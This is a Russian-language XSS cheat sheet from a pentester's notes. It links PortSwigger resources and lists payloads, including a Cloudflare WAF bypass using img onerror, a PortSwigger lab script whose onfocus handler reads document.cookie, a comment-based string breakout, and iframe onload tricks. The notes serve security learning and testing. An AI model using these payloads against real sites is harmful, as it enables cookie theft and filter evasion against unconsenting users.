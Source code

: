 # Cheat Sheets

Прекрасный cheatsheet от Portswigger по XSS.\
Можно выбрать какие элементы вам доступны, какие действия и пр., отсортировать по типу взаимодействия. А также скопировать все полученные пейлоады по одной кнопке[\
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

`XSS Cloudflare WAF bypass:`\
`<img%20id=%26%23x101;%20src=x%20onerror=%26%23x101;;alert1;>`

Тренировочные лабы от Portswigger - [https://portswigger.net/research/documenting-the-impossible-unexploitable-xss-labs](https://portswigger.net/research/documenting-the-impossible-unexploitable-xss-labs)

Полиглоты: [https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

Есть особый случай: автодополнение тегов: \<strong>test  ->  \<strong>test\</strong>

## Другие особые случаи&#x20;

### Из PortSwigger Labs (XSS)

Перевести фокус на элемент (и тем самым вызвать срабатывание onfocus) через якорь:

```
<script>
location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dtest+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#test';
</script> 
```

Если по каким-то причинам мы не можем закрыть оставшуюся часть полезной нагрузки, то можно закрыть комментарием — `//`. Например: `\'; alert(123); //`.

При обработке HTML-страницы сначала декодится htmlencode, затем уже интерпретируется JS-код. => можно использовать символы `&apos;` и тп, сначала декодируются они.

### iframe usage example

#### Изменить url при отрисовке формы

```markup
<iframe src="https://example.com/" onload="this.src += '#fragment'"></iframe>
```

Откроется iframe `https://example.com/`, после отрисовки формы пользователь будет перенаправлен на `https://example.com/#fragment`.

#### Resize формы при отрисовке формы

```html
<iframe src="https://example.com/?search=" onload="this.style.width='100px'"></iframe>
```

